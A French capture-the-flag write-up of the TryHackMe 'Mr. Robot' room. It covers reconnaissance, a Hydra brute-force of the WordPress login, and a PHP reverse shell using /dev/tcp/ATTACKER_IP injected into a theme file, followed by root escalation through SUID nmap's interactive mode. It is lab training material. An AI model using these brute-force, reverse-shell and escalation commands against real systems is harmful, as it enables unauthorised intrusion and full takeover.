 ![Capture TryHackMe](THMCTF.png)
### **Récapitulatif organisé de l’exploitation : Mr. Robot**

---

### **1. Reconnaissance de la cible**

#### **1.1 Test de connectivité**
![Capture TryHackMe](Ping.png)
- **Commande :**
    
    ```bash
    ping <IP_TARGET>
    ```
    
- **Résultat :** La cible répond, confirmant sa disponibilité.

#### **1.2 Accès à la page web**
![Capture TryHackMe](Website.png)
- J'ai ouvert l'IP dans Firefox pour voir si un service HTTP est actif.
- **Observation :**
    - Une page web de style "Mr. Robot" est affichée.
    - Plusieurs indices potentiellement intéressants, dont un **username visible** : **root**.

#### **1.3 Scan avec Nmap**
![Capture TryHackMe](Nmap.png)
- **Commande :**
    
    ```bash
    nmap -sV <IP_TARGET>
    ```
    
- **Résultat :**
    - **Port 80 (HTTP)** : Serveur Apache.
    - **Port 443 (HTTPS)** : Serveur actif.
    - **Port 22 (SSH)** : Fermé.

#### **1.4 Exploration des répertoires avec Gobuster**
![Capture TryHackMe](gobuster.png)
- **Commande :**
    
    ```bash
    gobuster dir -u http://<IP_TARGET> -w <wordlist>
    ```
   
- **Résultat :** ![Capture TryHackMe](Robot.txt.png)
    - Répertoire `/robots` découvert, contenant :
        
        ```
        User-agent: *
        fsocity.dic
        key-1-of-3.txt
        ```
        
    - Actions :
        - Téléchargé `fsocity.dic` : Une wordlist.
        - Récupéré **key-1-of-3.txt** : Premier flag trouvé.
![Capture TryHackMe](wegetfirstkey.png)
---

### **2. Analyse de la cible : WordPress**
![Capture TryHackMe](exploitverbose.png)
#### **2.1 Identification de WordPress**

- La cible utilise WordPress version **4.1.3**, qui contient plusieurs vulnérabilités connues.

#### **2.2 Scan WordPress avec WPScan**

- **Commande :**
    
    ```bash
    wpscan --url http://<IP_TARGET> --enumerate vp
    ```
    
- **Résultat :**
    - Le service **XML-RPC** est activé, permettant des attaques de bruteforce via API.

#### **2.3 Bruteforce avec Hydra**
![Capture TryHackMe](hydra.png)
- **Exploitation de la faille verbose de WordPress :**
    
    - La page de login **wp-login.php** affiche des messages spécifiques si :
        - L’username est incorrect.
        - Le mot de passe est incorrect.
    - Cette faille permet d’isoler et bruteforcer uniquement l’**username** ou le **mot de passe**.
- **Commande :**
    
    ```bash
    hydra -l Elliot -P fsocity.dic <IP_TARGET> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid password"
    ```
    
- **Résultat :**
    ![Capture TryHackMe](crackmdprobot.png)
    - **Username trouvé** : Elliot
    - **Mot de passe trouvé** : ER28-652

---

### **3. Exploitation de WordPress**

#### **3.1 Connexion à l'interface WordPress**

- **URL :** `http://<IP_TARGET>/wp-login.php`
- **Credentials :**
    - Username : Elliot
    - Mot de passe : ER28-652
- Résultat : Accès administrateur à WordPress.

#### **3.2 Injection d'un reverse shell**
![Capture TryHackMe](injectionpage.png)
- **Test 1 : Création d’une page avec un script PHP**
    
    - Échec : Le code PHP semble désactivé dans les pages.
- **Test 2 : Modification d’un plugin**
    ![Capture TryHackMe](listenernetcat.png)
    - J'ai modifié le fichier `archive.php` pour y injecter un script **reverse shell PHP** :
        
        ```php
        <?php
        exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");
        ?>
        ```
        
    - **Exécution :** En accédant à l’URL du plugin modifié, le script s’est exécuté.

---

### **4. Shell utilisateur "robot"**
![Capture TryHackMe](escalade.png)
#### **4.1 Obtention d’un shell limité**

- **Commande pour ouvrir un listener local :**
    
    ```bash
    nc -lvnp <PORT>
    ```
    
- **Résultat :** Connexion réussie avec les droits de l’utilisateur **robot**.

#### **4.2 Upgrade du shell**

- Problème : Le shell est limité et ne permet pas d’exécuter certaines commandes interactives.
- Solution : J’ai converti le shell en **shell interactif** avec Python.
    - **Commande :**
        
        ```bash
        python -c 'import pty; pty.spawn("/bin/bash")'
        ```
        

---

### **5. Escalade de privilèges**

#### **5.1 Recherche des fichiers SUID**

- **Commande :**
    
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
    
- **Résultat :** Plusieurs fichiers avec le bit SUID trouvé, dont **Nmap**.
![Capture TryHackMe](privilegerootflag3.png)
#### **5.2 Exploitation de Nmap**

- **Version :** 3.81 (vulnérable, avec mode interactif).
- **Exploitation :**
    - Commande pour lancer Nmap en mode interactif :
        
        ```bash
        nmap --interactive
        ```
        
    - Dans le mode interactif, j’ai exécuté un shell avec les privilèges root :
        
        ```bash
        !sh
        ```
        
    - **Vérification des privilèges :**
        
        ```bash
        whoami
        ```
        
        Résultat : root

---

### **6. Récupération des flags**

1. **Flag 2 :** J’ai lu la clé réservée à l’utilisateur **robot** :
    
    ```bash
    cat /home/robot/key-2-of-3.txt
    ```
    
2. **Flag 3 :** Une fois root, j’ai trouvé et lu la dernière clé :
    
    ```bash
    cat /root/key-3-of-3.txt
    ```
    

---

### **Résumé technique**

- **Étapes principales :**
    
    - Reconnaissance : Ping, scan Nmap, exploration avec Gobuster.
    - Accès initial : Bruteforce WordPress (username/password).
    - Exploitation WordPress : Reverse shell via un plugin.
    - Escalade de privilèges : Exploitation de Nmap (mode interactif vulnérable).
    - Récupération des flags : Lecture des fichiers root.
- **Accès final obtenu :** `root` avec contrôle total de la machine.
    
#Résumé global des compétences acquises
Bruteforce avancé avec Hydra :

Adapter la syntaxe en fonction des réponses du site.
Exploiter des failles pour optimiser les attaques.
Escalade des privilèges sous Linux :

Identifier les fichiers SUID et comprendre leur rôle.
Exploiter des programmes vulnérables pour devenir root.
Amélioration d'un shell :

Passer d’un reverse shell basique à un shell interactif.
Comprendre les limitations des shells non interactifs.
